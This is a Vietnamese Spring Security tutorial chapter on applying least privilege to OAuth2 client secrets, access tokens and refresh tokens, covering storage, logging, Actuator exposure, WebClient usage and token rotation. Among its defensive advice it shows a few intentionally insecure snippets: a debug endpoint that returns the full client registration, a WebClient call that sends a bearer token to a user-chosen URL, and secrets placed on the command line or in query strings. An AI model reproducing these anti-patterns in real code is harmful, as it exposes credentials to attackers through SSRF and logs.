


# 23.4. Giới hạn truy cập vào client secret, access token và refresh token

Trong **Spring Security OAuth 2.0 / OpenID Connect (OIDC) Client**, ba loại credential quan trọng thường xuất hiện cùng nhau nhưng **không có cùng mục đích, không có cùng vòng đời và không được cấp quyền truy cập cho cùng những thành phần**:

- **Client secret**: credential để một *confidential OAuth2 client* xác thực với **Authorization Server** theo phương thức đã đăng ký.
- **Access Token**: credential được cấp để **OAuth2 Client gọi Resource Server** trong phạm vi quyền, đối tượng nhận và thời hạn được cho phép.
- **Refresh Token**: credential được cấp để **OAuth2 Client yêu cầu Access Token mới** tại token endpoint, khi grant và chính sách provider cho phép.

Một ứng dụng vẫn có thể cấu hình `oauth2Login()` chính xác, xác minh `state`/`nonce` đầy đủ và dùng HTTPS nhưng bị xâm phạm nếu **client secret xuất hiện trong frontend bundle**, **Access Token bị gửi tới host do người dùng chỉ định**, hoặc **Refresh Token được lưu plaintext trong database/log có quá nhiều người được quyền đọc**.

Bài học này tập trung vào **giới hạn quyền truy cập (*least privilege*) đối với credential ở từng ranh giới hệ thống**, từ cấu hình Spring Boot, bộ nhớ ứng dụng, kho `OAuth2AuthorizedClient`, WebSession, WebClient, cơ sở dữ liệu và secret manager đến logging, backup, rotation, revocation và ứng phó khi bị lộ.

> **Tư duy cốt lõi:** không hỏi đơn giản «token đã được mã hóa chưa?», mà hỏi **ai có quyền đọc, ai có quyền dùng, dùng cho mục đích nào, trong bao lâu, qua con đường nào, và thu hồi được ra sao**.

## 1. Ba credential khác nhau ở đâu?

| Đặc điểm | Client secret | Access Token | Refresh Token |
|---|---|---|---|
| **Ai phát hành/cấp** | Thường được cấu hình/đăng ký tại Authorization Server hoặc hệ thống quản trị client. | Authorization Server cấp qua một grant hợp lệ. | Authorization Server cấp nếu grant/policy cho phép. |
| **Ai sử dụng** | OAuth2 Client backend xác thực với Authorization Server. | OAuth2 Client gọi Resource Server được phép nhận token. | OAuth2 Client gọi token endpoint của Authorization Server. |
| **Có đại diện user không?** | Không; là credential của client. | Có thể là quyền được cấp trong ngữ cảnh user hoặc client, tùy grant/token. | Gắn với authorization/grant và client theo chính sách provider. |
| **Có gửi cho browser không?** | **Không**, nếu đây là confidential client secret. | Trong BFF server-side: giữ ở backend; SPA public client là trường hợp thiết kế riêng. | Trong BFF server-side: giữ ở backend; browser public client cần chính sách riêng nếu provider cấp. |
| **Có gửi tới Resource Server không?** | **Không.** | **Có**, tới API phù hợp, thường dưới dạng Bearer. | **Không.** |
| **Thường sống bao lâu?** | Theo vòng đời credential của client, có thể tương đối dài. | Thường ngắn, có `expiresAt`. | Có thể dài hơn Access Token, nhưng có thể hết hạn/revoke/rotation. |
| **Cần rotation/thu hồi?** | Có, theo quản trị credential. | Có thể revoke nếu provider hỗ trợ; hạn ngắn giảm rủi ro. | Có, thường nhạy cảm với revoke, rotation, reuse detection. |
| **Nếu bị lộ** | Kẻ tấn công có thể mạo danh client ở những flow được provider cho phép. | Kẻ cầm Bearer Token có thể gọi tài nguyên nằm trong quyền token. | Kẻ tấn công có thể xin Access Token mới nếu vượt qua các ràng buộc client/thiết bị mà provider áp dụng. |

**Không có một cơ chế bảo vệ duy nhất thay thế mọi lớp kiểm soát.** Mã hóa database không ngăn được việc ứng dụng cố tình gửi Bearer token sang một URL độc hại. TLS không ngăn log ghi nguyên Refresh Token. Cookie `HttpOnly` không bảo vệ client secret đã đóng gói vào JavaScript.

### 1.1. Token là credential, không phải thông tin hồ sơ

Access Token thường là *bearer credential*: bên nắm giữ token có thể sử dụng nó trong phạm vi API chấp nhận, nếu không có cơ chế ràng buộc người gửi mạnh hơn. Nó không phải «một chuỗi vô hại chỉ chứa thông tin user».

Ngay cả khi Access Token có dạng JWT dễ giải mã phần payload, **đọc được claim không làm token an toàn để công bố**. JWT vẫn có chữ ký và có thể được API chấp nhận như credential. Refresh Token đôi khi là opaque string không có cấu trúc có thể đọc; mức độ nhạy cảm của nó không giảm vì không phải JWT.

### 1.2. ID Token là một loại khác

Trong OIDC, OP còn có thể cấp **ID Token**. ID Token phục vụ **xác thực danh tính tại OIDC Client**, không phải thứ thay Access Token khi gọi API. Nó có thể chứa dữ liệu cá nhân và vẫn cần bảo vệ, nhưng mục tiêu của bài này là giới hạn quyền đối với ba credential nói trên.

Không gửi ID Token tới API chỉ vì đã có nó trong `OidcUser`; Resource Server phải yêu cầu Access Token có audience/scope thích hợp.

## 2. Mô hình đe dọa: credential có thể lộ từ đâu?



Những nguồn rò rỉ điển hình:

1. **Source code/Git:** client secret được hardcode rồi commit.
2. **CI/CD:** secret xuất hiện trong logs, artifact, build argument, script echo hoặc test fixture.
3. **Frontend/browser:** confidential client secret hoặc Refresh Token backend bị đưa vào JavaScript, local storage hay HTML.
4. **HTTP logs:** header `Authorization`, body `grant_type=refresh_token`, token response bị ghi.
5. **Observability:** APM thu thập headers, query string, raw exception hoặc request/response payload.
6. **Database/cache:** Access/Refresh Token được lưu plaintext, quyền đọc quá rộng hoặc backup không bảo vệ.
7. **Runtime diagnostics:** heap dump, crash dump, debugger và process environment có thể chứa credential.
8. **Outbound HTTP:** WebClient tự gắn Bearer token vào API/redirect/host không phù hợp.
9. **Multi-tenant:** token của tenant A bị load hoặc dùng bởi tenant B.
10. **Incident operations:** người hỗ trợ được cấp quyền đọc raw token dù chỉ cần metadata để debug.

Giải pháp phải xét **toàn bộ đường đi credential**, không chỉ nơi lưu trữ.

## 3. Lập ma trận quyền: thành phần nào được phép thấy gì?

Một mô hình backend-for-frontend (BFF) thường có thể áp dụng ma trận sau:

| Thành phần | Client secret | Access Token | Refresh Token |
|---|---|---|---|
| **Browser/frontend** | Không | Không cần trong BFF server-side | Không |
| **Spring Boot OAuth2 Client runtime** | Được dùng theo registration/grant cần thiết | Được dùng cho outbound API được phép | Được dùng tại token endpoint khi cần refresh |
| **Authorization Server** | Được xác thực theo client-auth method | Phát hành/đánh giá theo giao thức | Phát hành và chấp nhận ở token endpoint |
| **Resource Server** | Không | Được nhận token dành cho API đó | Không |
| **Token store** | Thường không cần giữ client secret; kho riêng phù hợp hơn | Lưu bản mã hoặc theo chính sách bảo vệ | Lưu bản mã với kiểm soát nghiêm ngặt |
| **Secret manager** | Lưu/phát credential cho đúng workload | Có thể có kiến trúc riêng, không bắt buộc | Có thể giữ khóa mã hóa, không cần công bố token |
| **Logs/metrics/traces** | Không | Không | Không |
| **Developer/support thông thường** | Không có quyền xem giá trị production | Không có quyền xem raw token | Không có quyền xem raw token |
| **Break-glass operator được ủy quyền** | Chỉ thao tác trong phạm vi sự cố, có audit | Chỉ khi quy trình sự cố cho phép | Chỉ khi quy trình sự cố cho phép |

Ma trận này là **định hướng cho BFF confidential client**. Với public SPA/mobile client, browser/thiết bị có thể cần nhận Access Token theo thiết kế OAuth2, nhưng **public client không thể giữ client secret bí mật** và cần chiến lược riêng về XSS, PKCE, sender-constrained tokens và Refresh Token.

### 3.1. «Có quyền đọc» khác «có quyền sử dụng»

Ví dụ người vận hành cần biết registration `company` đang lỗi `invalid_client`; họ không cần **xem giá trị client secret**. Một service cần gọi API có thể sử dụng Access Token thông qua HTTP client nhưng không cần public method trả raw token cho mọi caller.

Kiểm soát tốt phân biệt:

- **Read secret**: xuất giá trị credential.
- **Use secret**: runtime được phép dùng credential cho một hành động hẹp.
- **Rotate/revoke secret**: vai trò quản trị đặc biệt.
- **Observe metadata**: xem trạng thái mà không đọc raw credential.
- **Audit**: ghi ai đã yêu cầu/đổi/thu hồi credential.

Giảm quyền đọc trực tiếp thường là mục tiêu quan trọng nhất.

## 4. Nguyên tắc thiết kế tối thiểu cho mọi credential

### 4.1. Least privilege

Chỉ thành phần cần client secret mới được lấy nó; chỉ service cần gọi `orders-api` mới được dùng Access Token; chỉ token manager cần Refresh Token mới được giải mã Refresh Token.

Không cấp quyền DB `SELECT *` trên bảng chứa token cho toàn bộ đội phân tích dữ liệu hoặc support. Không cho một runtime có thể đọc secret của mọi client registration nếu nó chỉ vận hành một integration.

### 4.2. Need-to-know và giảm số bản sao

Mỗi lần copy token sang một lớp khác, thêm một hệ thống logging, queue hoặc cache, credential có thêm đường rò.

Nên:

- Truyền token qua **abstraction** của OAuth2 Client và HTTP client, không đưa vào hàng loạt domain DTO.
- Tránh lưu Access Token trong entity hồ sơ user chỉ để «tiện sử dụng».
- Không gửi Refresh Token qua event bus/analytics.
- Không lưu token vào exception message.
- Không đưa client secret vào template HTML hoặc cấu hình public.
- Không cho ứng dụng tự tạo bản sao secret ở nhiều file tạm.

### 4.3. Phân vùng theo workload, principal, tenant và môi trường

Mỗi **environment** (dev/staging/prod) nên có registrations/credentials phù hợp, hạn chế dùng cùng một client secret sản xuất cho mọi môi trường.

Với token user, kho lưu phải phân tách theo **registration + principal**, cộng tenant/issuer khi cần. Không dựa trên email hoặc query parameter chưa được xác minh để chọn token của người khác.

### 4.4. Default deny và fail closed

Khi secret không giải mã được, token store không truy cập được hoặc principal không khớp:

- Không trả token của user khác.
- Không fallback sang machine token quyền cao.
- Không dùng token cũ đã hết hạn vô thời hạn.
- Không tắt TLS/issuer/audience validation.
- Không tạm gửi credential lên logger để «xác định vấn đề».

Hãy trả lỗi được kiểm soát, ghi metadata an toàn và khắc phục đúng nguyên nhân.

## 5. Client secret: giới hạn từ lúc cấu hình

`client_secret` là credential dùng để xác thực **confidential OAuth2 Client** với Authorization Server. Nó **không** được coi là cấu hình public có thể đưa vào browser/SPA.

Một `application.yml` hợp lý:

```yaml
spring:
  security:
    oauth2:
      client:
        registration:
          company:
            provider: company-oidc
            client-id: ${OIDC_CLIENT_ID}
            client-secret: ${OIDC_CLIENT_SECRET}
            client-authentication-method: client_secret_basic
            authorization-grant-type: authorization_code
            redirect-uri: "{baseUrl}/login/oauth2/code/{registrationId}"
            scope:
              - openid
              - profile
              - orders.read
        provider:
          company-oidc:
            issuer-uri: https://id.example.org/realms/company
```

Ý nghĩa:

- `OIDC_CLIENT_ID` có thể là identifier không bí mật; không nhầm với secret.
- `OIDC_CLIENT_SECRET` là placeholder để môi trường/secret manager cấp tại runtime.
- `client_secret_basic` yêu cầu runtime gửi client authentication tới token endpoint qua kênh an toàn.
- `redirect-uri` và scopes phục vụ Authorization Code Flow, không quyết định ai được đọc client secret.
- Không commit giá trị client secret thực vào YAML.

### 5.1. Environment variable là cơ chế inject, không phải vault

Một cách cung cấp secret cho Spring Boot:

```text
OIDC_CLIENT_ID     = <configured-client-id>
OIDC_CLIENT_SECRET = <secret-from-approved-secret-manager>
```

Runtime có thể nhận các giá trị này từ process environment, file mount bảo vệ hoặc một integration với secret manager được tổ chức phê duyệt.

**Biến môi trường không tự bảo mật tuyệt đối.** Tiến trình có quyền cao, crash dump, diagnostic endpoint hoặc công cụ giám sát cấu hình sai có thể đọc environment. Vì vậy vẫn cần:

- Quyền chạy service tối thiểu.
- Cô lập workload/host/container.
- Giới hạn ai được xem process environment.
- Không ghi environment vào startup logs.
- Không gửi biến môi trường vào exception/health response.
- Quy trình rotate và reload credential khi thay đổi.

### 5.2. Không truyền secret bằng command-line argument

Không nên:

```bash
java -jar app.jar \
  --spring.security.oauth2.client.registration.company.client-secret=REAL_SECRET
```

Giá trị có thể xuất hiện trong shell history, process list, logs hoặc telemetry. Một ví dụ an toàn hơn là dùng cơ chế inject secret đã được thiết kế cho môi trường, không tạo giá trị thật trong source hoặc lệnh copy vào ticket.

Ngay cả trong CI, tránh in toàn bộ command line chứa secret. Cần dựa trên secret store và khả năng masking của CI nhưng không mặc định masking luôn hoàn hảo.

### 5.3. `.gitignore` không sửa việc secret đã commit

Nếu credential từng xuất hiện trong Git history:

- Xóa dòng đó khỏi file hiện tại **chưa đủ**.
- Cần coi credential có nguy cơ bị lộ và **rotate/revoke** tại provider.
- Kiểm tra repository mirrors, build artifacts và log liên quan.
- Có thể cần làm sạch lịch sử theo quy trình của tổ chức, nhưng việc đó **không thay thế rotation**.

Không đưa secret thật vào unit-test fixture, tài liệu README, screenshot, ticket hoặc email.

## 6. Spring Boot Actuator, configuration metadata và quyền operator

Một số môi trường có thể bật các endpoint quan sát như:

```text
/actuator/env
/actuator/configprops
/actuator/heapdump
/actuator/loggers
```

Chúng có thể cho thấy cấu hình, hỗ trợ thay đổi mức logging hoặc cung cấp diagnostic data. Framework có thể có **cơ chế sanitization**, nhưng **không nên dựa riêng vào việc che chuỗi `password`/`secret`** như một ranh giới bảo mật hoàn chỉnh.

Nên:

- Không mở public các endpoint chứa cấu hình/diagnostics.
- Chỉ expose endpoints thực sự cần và bảo vệ bằng network/authz phù hợp.
- Giới hạn `heapdump`, `threaddump`, remote debugger, JMX và admin console.
- Chặn hiển thị raw `spring.security.oauth2.client.registration.*.client-secret`.
- Cấu hình logging level đủ để debug mà không xuất request/response headers.
- Có audit ai truy cập management endpoints hoặc tải diagnostic artifacts.

**Heap dump có thể chứa token/secret trong memory** dù database đã mã hóa ở trạng thái nghỉ. Bảo vệ và retention của dump phải nghiêm như đối với credential.

### 6.1. Không xây endpoint «xem cấu hình OAuth2»

Một controller kiểu:

```java
// SAI: có nguy cơ lộ client secret cho caller.
@GetMapping("/debug/oauth2-registration")
public ClientRegistration registration() {
    return registrations.findByRegistrationId("company");
}
```

có thể khiến thông tin đăng ký/credential lọt vào JSON do serialization hoặc `toString()`.

Nếu cần quan sát, trả **metadata đã được chọn lọc** như registration alias, grant type, issuer hostname và trạng thái connectivity, không trả nguyên object `ClientRegistration`.

## 7. Confidential client và public client: không áp dụng sai mô hình

OAuth 2.0 phân biệt client theo khả năng giữ bí mật.

| Client | Khả năng giữ client secret | Chiến lược chính |
|---|---|---|
| **Spring Boot backend confidential client** | Có thể bảo vệ secret trong runtime/secret manager ở mức phù hợp. | Client authentication với secret, private key JWT hoặc mTLS theo provider. |
| **SPA chạy trong browser** | Không thể giữ secret lâu dài trước người dùng/browser. | Public client, Authorization Code + PKCE và thiết kế token browser an toàn. |
| **Mobile/desktop native app** | Không thể coi secret đóng gói trong app là bí mật. | Public client, PKCE và redirect URI phù hợp. |
| **Machine-to-machine backend** | Có thể giữ secret hoặc khóa/chứng chỉ riêng. | Client Credentials với client authentication và least privilege. |

**Không hardcode client secret vào React/Vue bundle, mobile APK/IPA hoặc source JavaScript** rồi cho rằng minify/obfuscate sẽ làm bí mật. Người dùng/attacker có thể phân tích ứng dụng và lấy giá trị.

### 7.1. PKCE không tự bảo vệ client secret

PKCE bảo vệ Authorization Code Flow trước các hình thức đánh cắp/tiêm authorization code bằng `code_verifier` và `code_challenge`. Nó **không** làm một secret bị công bố trong browser trở nên bí mật.

Confidential client có thể kết hợp PKCE với client authentication nếu yêu cầu. Public client dùng PKCE và không được giả vờ là confidential client chỉ vì có một chuỗi `client_secret` trong cấu hình frontend.

### 7.2. Client authentication khác scope của API

Dù client secret chính xác, API vẫn phải kiểm tra Access Token có audience/scope/policy phù hợp. Client secret không phải API key để gửi tới mọi Resource Server.

Authorization Server có thể xác thực client thành công nhưng từ chối grant/scope theo policy. Không dùng việc có secret làm lý do bypass Resource Server authorization.

## 8. Thay thế client secret bằng phương thức mạnh hơn khi phù hợp

Tùy Authorization Server và threat model, confidential client có thể dùng:

- `client_secret_basic`: secret gửi trong HTTP Basic qua TLS tới token endpoint.
- `client_secret_post`: secret trong form body; cần tránh body logging và chỉ dùng khi provider/chính sách cho phép.
- `private_key_jwt`: client assertion được ký bằng khóa riêng.
- **mTLS client authentication**: xác thực bằng client certificate theo cấu hình.
- Các cơ chế/extension được Authorization Server hỗ trợ.

Việc dùng private key JWT hay mTLS **không xóa nhu cầu bảo vệ credential**; nó đổi từ secret dạng chuỗi sang **private key/chứng chỉ hoặc khóa ký** và cần key management, rotation, quyền đọc và bảo vệ runtime tương đương.

Không tự suy rằng Spring Boot chỉ cần đổi chuỗi `client-authentication-method` là mọi phương thức hoạt động ngay; một số phương thức cần cấu hình HTTP client, key material, assertion generator hoặc client registration bổ sung.

### 8.1. Sender-constrained Access Token

Bearer token thông thường có thể được sử dụng bởi bất cứ bên nào nắm giữ token nếu API chấp nhận. Một số hệ thống hỗ trợ **sender-constrained tokens** như mTLS-bound access token hoặc DPoP-bound token theo profile.

Khi được hỗ trợ và cấu hình đúng, token được ràng buộc với một khóa/chứng chỉ của client, giúp hạn chế tác động khi chỉ token string bị sao chép.

Tuy nhiên:

- Không phải mọi provider/API hỗ trợ cùng cơ chế.
- Không mặc định Spring Security đã bật sender constraint chỉ vì dùng HTTPS.
- Nếu attacker chiếm cả runtime và key, lợi ích hạn chế.
- Scope/audience và storage protections vẫn cần thiết.

Đây là một lớp phòng vệ bổ sung, không thay cho nguyên tắc quyền tối thiểu.

## 9. Access Token: chỉ truyền tới Resource Server được phép

Trong Spring Security OAuth2 Client, Access Token thường có trong `OAuth2AuthorizedClient.getAccessToken()`. Nó không phải secret dùng để authenticate ứng dụng với token endpoint.

Luồng đúng:

```text
Spring OAuth2 Client  --Bearer Access Token--> Resource Server dành cho token
Spring OAuth2 Client  --Refresh Token-------> Token endpoint của Authorization Server
Spring OAuth2 Client  --Client Secret-------> Token endpoint/AS client authentication
```

**Không đảo vai trò các credential**. Đặc biệt, không gửi Refresh Token vào header Bearer của API; không dùng Access Token để đăng nhập một confidential client; không đưa client secret vào endpoint nghiệp vụ.

### 9.1. Scope và audience giới hạn quyền sử dụng

Một Access Token có thể mang scope:

```text
orders.read
```

và audience/resource dành cho `orders-api`. Resource Server phải xác minh token và quyết định quyền thực tế.

Nếu token chỉ dùng cho `orders-api`, không nên gửi cùng token đến `billing-api` với hy vọng nó được chấp nhận. Nếu Authorization Server hỗ trợ token exchange/resource indicators, phải xin token cho đúng API theo hợp đồng.

Đối với người dùng, token còn có thể bị giới hạn bởi tenant, resource ownership và trạng thái account. **Có Access Token không đồng nghĩa được phép đọc mọi dữ liệu.**

### 9.2. Token TTL ngắn giảm cửa sổ rủi ro

Khi Access Token là Bearer, thời hạn ngắn giúp giảm thời gian kẻ tấn công có thể dùng token bị đánh cắp. Nhưng TTL quá ngắn kết hợp hệ thống refresh thiếu coordination có thể tạo tải và lỗi.

Thiết kế cân bằng:

- Access Token TTL theo chính sách Authorization Server.
- Refresh Token được giữ bảo mật, có rotation/revocation khi phù hợp.
- Clock synchronization và `clockSkew` hợp lý.
- Không giữ token cũ trong global cache sau khi manager đã refresh.
- Xử lý revocation/account disable nếu sản phẩm yêu cầu thu hồi sớm hơn expiry.

## 10. Dùng WebClient an toàn: không gắn token mặc định vào mọi URL

Trong Spring Security Servlet stack, `ServletOAuth2AuthorizedClientExchangeFilterFunction` có thể giúp WebClient gửi Access Token. Trong WebFlux reactive, thành phần tương ứng là `ServerOAuth2AuthorizedClientExchangeFilterFunction`.

Điểm nguy hiểm là **cấu hình tự động chọn authorized client mặc định** trên một WebClient được dùng để gọi nhiều endpoint/host.

Ví dụ rủi ro:

```text
Một WebClient chia sẻ:
  GET https://api.orders.example.org/api/orders    (cần user token)
  GET https://status.example.net/status            (không cần token)
  GET https://external.example.net/data            (host ngoài)
```

Nếu filter tự gắn Bearer token vào tất cả requests, request thứ hai hoặc thứ ba có thể làm lộ token.

### 10.1. Chọn authorized client cho từng request

Ví dụ Servlet/WebClient:

```java
import org.springframework.security.oauth2.client.OAuth2AuthorizedClient;
import org.springframework.security.oauth2.client.web.reactive.function.client.ServletOAuth2AuthorizedClientExchangeFilterFunction;
import org.springframework.web.reactive.function.client.WebClient;

public final class OrdersApiClient {

    private final WebClient ordersWebClient;

    public OrdersApiClient(WebClient ordersWebClient) {
        this.ordersWebClient = ordersWebClient;
    }

    public reactor.core.publisher.Mono<String> orders(
            OAuth2AuthorizedClient authorizedClient) {

        return ordersWebClient.get()
            .uri("/api/orders")
            .attributes(
                ServletOAuth2AuthorizedClientExchangeFilterFunction
                    .oauth2AuthorizedClient(authorizedClient)
            )
            .retrieve()
            .bodyToMono(String.class);
    }
}
```

Trong ví dụ, `ordersWebClient` được cấu hình với base URL cố định:

```java
WebClient.builder()
    .baseUrl("https://api.orders.example.org")
    .apply(oauth2.oauth2Configuration())
    .build();
```

Ở đoạn thứ hai, biến `oauth2` là một filter function đã được cấu hình với authorized client repository/manager phù hợp; đây là fragment minh họa, không phải standalone class hoàn chỉnh.

**Không đưa token vào `WebClient.builder().defaultHeader(...)` của một singleton WebClient dùng chung cho nhiều users.** Mỗi outbound request cần chọn token phù hợp ngữ cảnh.

### 10.2. WebFlux dùng filter khác Servlet

Nếu ứng dụng là WebFlux server, dùng:

```java
ServerOAuth2AuthorizedClientExchangeFilterFunction
    .oauth2AuthorizedClient(authorizedClient)
```

và reactive repositories/managers tương ứng.

Không nhập nhằng giữa `ServletOAuth2AuthorizedClientExchangeFilterFunction` và `ServerOAuth2AuthorizedClientExchangeFilterFunction` chỉ vì cả hai đều làm việc với WebClient. Dùng đúng loại application stack để không mất principal/request context.

### 10.3. Không cho client chỉ định URL tùy ý

Một anti-pattern:

```java
// SAI: user có thể chọn host nhận token.
webClient.get()
    .uri(userSuppliedAbsoluteUrl)
    .attributes(oauth2AuthorizedClient(authorizedClient))
    .retrieve();
```

Nếu URL trỏ tới server của attacker hoặc metadata service nội bộ, đây có thể là **SSRF kết hợp token exfiltration**.

Cần:

- Base URL cố định cho API.
- Allowlist domain/origin, kiểm soát absolute URI override.
- Không forwarding `Authorization` header qua redirect cross-origin không được phép.
- HTTPS và kiểm tra chứng chỉ/hostname.
- Cẩn trọng với DNS rebinding, proxy và IP nội bộ nếu ứng dụng cho phép URL động.
- Không dùng Access Token của API A cho API B nếu audience khác.

### 10.4. Không dùng token trong URL

Tránh:

```http
GET /api/orders?access_token=<bearer-token>
```

URL có thể bị ghi ở reverse proxy, browser history, analytics và application logs. Với Bearer token, cách thông dụng là **`Authorization: Bearer ...`** theo hợp đồng API và RFC 6750.

## 11. Refresh Token: giới hạn đọc và sử dụng nghiêm ngặt hơn

Refresh Token có thể tồn tại lâu hơn Access Token và được dùng để tạo Access Token mới. Do đó trong nhiều hệ thống, hậu quả khi lộ Refresh Token **kéo dài hơn**.

Nên giới hạn:

- Chỉ OAuth2 Client backend / authorized client manager được truy cập giá trị để refresh.
- Không trả Refresh Token qua controller, DTO hay frontend API trong BFF.
- Không gửi Refresh Token tới Resource Server.
- Không log body token request `grant_type=refresh_token`.
- Không đưa Refresh Token vào message broker hoặc domain entity nếu không có thiết kế bắt buộc.
- Mã hóa và phân quyền chặt trong kho lưu nếu cần persistence.
- Có cơ chế rotation, revoke, cleanup và offboarding theo provider.
- Phải xác định chính sách khi user logout hoặc rút consent.

### 11.1. Không phải grant nào cũng có Refresh Token

`OAuth2AuthorizedClient.getRefreshToken()` có thể trả `null`. Ví dụ `client_credentials` thông thường không sử dụng Refresh Token, mà xin Access Token mới bằng cùng grant.

Đừng xây custom token store bắt buộc cột Refresh Token luôn khác `null`, hoặc tự tạo Refresh Token từ Access Token/ID Token.

### 11.2. Refresh Token Rotation

Provider có thể áp dụng cơ chế:

```text
Lần đầu:   Access Token A1 + Refresh Token R1
Refresh:  R1 -> Access Token A2 + Refresh Token R2
Refresh:  R2 -> Access Token A3 + Refresh Token R3
```

Khi R2 được cấp, R1 có thể bị vô hiệu hóa. Nếu một instance còn giữ R1 và dùng lại, OP có thể trả `invalid_grant` hoặc thực hiện **reuse detection**. Tùy provider, hậu quả có thể là thu hồi cả token family.

Cần lưu kết quả mới **nguyên tử**: Access Token mới, Refresh Token mới nếu được cấp và metadata liên quan phải được cập nhật thành một trạng thái nhất quán. Không lưu A2 nhưng giữ R1 do transaction hỏng.

### 11.3. Refresh Token không đồng nghĩa quyền vĩnh viễn

Ngay cả khi Refresh Token vẫn tồn tại trong DB, Authorization Server có thể từ chối vì:

- Consent revoked.
- Account disabled.
- Client secret/credential bị đổi.
- Refresh Token expired.
- Session/provider policy thay đổi.
- Token family bị thu hồi sau reuse detection.
- Client registration/scope không còn hợp lệ.

Không retry vô hạn cùng Refresh Token khi nhận `invalid_grant`. Cần xử lý authorized client thất bại và reauthorization theo chính sách.

## 12. Kho `OAuth2AuthorizedClient` trong Spring Security

Sau OAuth2/OIDC login hoặc authorization tương ứng, Spring Security có thể giữ Access/Refresh Token trong `OAuth2AuthorizedClient`.

Hai extension points cốt lõi trên Servlet:

| Interface | Chức năng |
|---|---|
| `OAuth2AuthorizedClientRepository` | Load/save/remove trong ngữ cảnh `Authentication`, `HttpServletRequest` và `HttpServletResponse`. |
| `OAuth2AuthorizedClientService` | Load/save/remove theo client registration và principal, độc lập trực tiếp HTTP request. |

Các implementation phổ biến:

- `HttpSessionOAuth2AuthorizedClientRepository`.
- `AuthenticatedPrincipalOAuth2AuthorizedClientRepository`.
- `InMemoryOAuth2AuthorizedClientService`.
- `JdbcOAuth2AuthorizedClientService`.
- Custom implementation với database/Redis/encryption/tenant policy riêng.

Trong WebFlux, interface tương ứng gồm `ServerOAuth2AuthorizedClientRepository` và `ReactiveOAuth2AuthorizedClientService`; không trộn hai stack.

### 12.1. Không phải cứ có JDBC là đã mã hóa token

`JdbcOAuth2AuthorizedClientService` giúp lưu authorized client vào database theo schema framework. Nhưng **không được mặc định** rằng implementation đã cung cấp:

- Application-level encryption bằng KMS.
- Tenant-specific isolation cho mọi mô hình ứng dụng.
- Rotation của data encryption key.
- Retention/xóa token theo chính sách sản phẩm.
- Distributed locking để refresh an toàn.
- Revocation tại Authorization Server.
- Role-based authorization cho mọi admin/support truy xuất DB.

Cần bảo vệ DB bằng network isolation, TLS, DB account tối thiểu, storage encryption, backup encryption; nếu threat model yêu cầu chống lộ token khi DB bị đọc, cân nhắc **application-level encryption** hoặc custom store phù hợp.

### 12.2. In-memory service có nguy cơ gì?

`InMemoryOAuth2AuthorizedClientService` lưu token trong process memory:

- Không có durability qua restart.
- Mỗi instance có kho riêng.
- Heap dump hoặc remote debugger vẫn có thể lộ raw token.
- Không tự giải quyết token persistence khi load balancing.
- Không phù hợp nếu sản phẩm cần giữ offline delegation lâu dài qua restart.

In-memory có thể đủ cho môi trường đơn giản, nhưng không có nghĩa «không ghi DB nên không thể lộ token». Credential vẫn tồn tại trong memory lúc cần sử dụng.

### 12.3. HTTP session storage có giới hạn gì?

`HttpSessionOAuth2AuthorizedClientRepository` có thể đặt authorized client vào session. Khi đó:

- Đặc tính bảo vệ token phụ thuộc session store.
- Session serialization/replication có thể tạo bản sao token.
- Session dump/backup có thể chứa credential.
- Session cookie bị chiếm có thể cho attacker sử dụng chức năng ứng dụng trong phạm vi phiên, dù cookie không chứa raw token.
- Session timeout có thể làm mất authorized client, nhưng không mặc định revoke token ở OP.

Không coi `HttpOnly` cookie là giải pháp mã hóa Access/Refresh Token trong server-side session store.

## 13. Phân biệt ba loại lưu trữ trong OAuth2 Login

Trong một lượt OIDC login, có ít nhất ba dạng trạng thái:

| Trạng thái | Thường gắn với | Mục đích |
|---|---|---|
| **Authorization Request** | `OAuth2AuthorizationRequestRepository`, thường session | Lưu `state`, PKCE/nonce context để liên kết callback. |
| **SecurityContext** | `SecurityContextRepository` hoặc session mechanism | Xác định browser request đã đăng nhập bằng user nào. |
| **Authorized Client** | `OAuth2AuthorizedClientRepository`/Service | Giữ Access Token và Refresh Token của client/principal. |

Các thành phần này không thể thay thế nhau. Một database đã lưu Refresh Token không tự tái tạo `SecurityContext` cho browser sau khi session hết hạn; một session còn sống không bảo đảm Access Token chưa hết hạn.

### 13.1. Vì sao cần hiểu sự khác biệt khi giới hạn quyền?

- Bộ phận vận hành session store có thể thấy các session attributes, tùy implementation.
- Bộ phận DBA có thể có quyền đọc token store.
- Browser có session cookie nhưng không được phép đọc server-side Access/Refresh Token.
- Login callback cần authorization request/state, không cần một endpoint public trả Refresh Token.
- Resource Server chỉ cần nhận Access Token phù hợp, không cần session cookie của client.

Quyền truy cập nên được cấp theo **đúng loại dữ liệu** thay vì đặt mọi state vào một database có quyền đọc chung.

